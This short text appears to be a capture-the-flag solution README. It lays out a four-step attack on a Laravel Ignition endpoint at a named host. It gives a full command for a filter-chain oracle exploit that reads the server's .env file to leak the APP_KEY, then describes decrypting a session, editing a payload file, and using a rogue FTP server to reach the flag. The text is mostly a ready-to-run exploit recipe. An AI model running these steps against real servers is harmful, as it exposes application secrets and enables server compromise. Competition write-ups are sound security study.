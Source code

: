 
# Step 1

Get APP_KEY

```
python filters_chain_oracle_exploit.py --target "https://csgo.teklab.one/_ignition/execute-solution?solution=Facade\Ignition\Solutions\MakeViewVariableOptionalSolution" --file /var/www/app/.env --parameter cc --verb JSONPOST --proxy http://127.0.0.1:8080
```

# Step 2

Replace the leaked APP_KEY and session value then decrypt to find the session id


```
python decrypt.py
```

# Step 3

Change the session id in `payload.bin`

# Step 4

Run evil ftp server and trigger the ftp client to this server

-> Refresh the page and the flag will turn out